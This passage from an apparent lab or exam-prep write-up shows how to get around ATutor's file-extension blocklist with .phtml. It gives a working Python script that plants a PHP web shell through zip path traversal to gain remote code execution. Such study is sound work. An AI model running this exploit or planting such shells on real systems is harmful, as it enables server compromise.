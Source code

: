 We see that illegal_extentions is being assigned from the variable:
```php
$_config['illegal_extentions']
```

So we proceed to look for the same, and find the following file:

![](../../03.%20Screenshots/t1-ss51.png)

We see the variable being defined in the file constants.inc.php as:
```php
31  $_config_defaults['illegal_extentions']        = 'exe|asp|php|php3|bat|cgi|pl|com|vbs|reg|pcd|pif|scr|bas|inf|vb|vbe|wsc|wsf|wsh';
```

Here, we see that a lot of extensions are being filtered out, however, we can use the phtml or php5 extension, that is recognized by apache, and gives us the opportunity, to upload a web shell.

We can upload our script again to include a php web shell:
```python
#!/usr/bin/python
import zipfile
from cStringIO import StringIO

def _build_zip():
    f = StringIO()
    z = zipfile.ZipFile(f, 'w', zipfile.ZIP_DEFLATED)
    z.writestr('../../../../../../../var/www/html/ATutor/mods/poc/new.phtml', '<?php system($_REQUEST["abc"])?>')
    z.writestr('imsmanifest.xml', 'invalid xml file!')
    z.close()
    zip = open('poc.zip','wb')
    zip.write(f.getvalue())
    zip.close()

_build_zip() 
```

With this, we can upload the zip file, access the uploaded file, and visit the file to get remote code execution:

![](../../03.%20Screenshots/t1-ss52.png)